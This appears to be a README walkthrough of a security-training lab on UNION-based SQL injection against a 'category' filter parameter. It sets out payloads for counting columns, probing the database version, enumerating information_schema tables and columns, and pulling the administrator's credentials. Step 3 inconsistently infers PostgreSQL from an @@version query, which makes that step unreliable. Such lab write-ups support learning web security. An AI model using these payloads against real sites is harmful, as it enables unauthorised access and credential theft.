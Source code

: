 # SQL Injection Lab 05 - SQL injection attack, listing the database contents on non-Oracle databases

## Manual Solution

### 1. Access the lab in Web Security Academy
### 2. Determine the number of columns for UNION attack
   - Test: `/filter?category=Gifts' ORDER BY 1--`
   - Result: No error (at least 1 column exists)
   - Test: `/filter?category=Gifts' ORDER BY 2--`
   - Result: No error (at least 2 columns exist)
   - Test: `/filter?category=Gifts' ORDER BY 3--`
   - Result: Error (confirms 2 columns)

### 3. Verify database version:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,@@version --`
   - Result: Database version information displayed. So the database is PostgreSQL.

### 4. List the database contents:
   - Test: `/filter?category=Gifts' UNION SELECT NULL,table_name FROM information_schema.tables --`
   - Result: List of tables in the database. There are many tables, we don't know which one has the username and password.

### 5. List the columns like %username% and %password%:
   - Test: `/filter?category=Gifts' UNION SELECT table_name,column_name FROM information_schema.columns WHERE column_name LIKE '%username%' OR column_name LIKE '%password%' --`
   - Result: You'll see a table starts with users_... and its columns. Example: users_ylbcwc and its columns are username_fyrfao and password_izzwei.

### 6. Extract the username and password:
   - Test: `/filter?category=Gifts' UNION SELECT [YOUR COLUMN NAME],[YOUR COLUMN NAME] FROM [YOUR_TABLE_NAME]--`
   - Result: administrator and password

### 7. Login to the administrator account

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_05.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

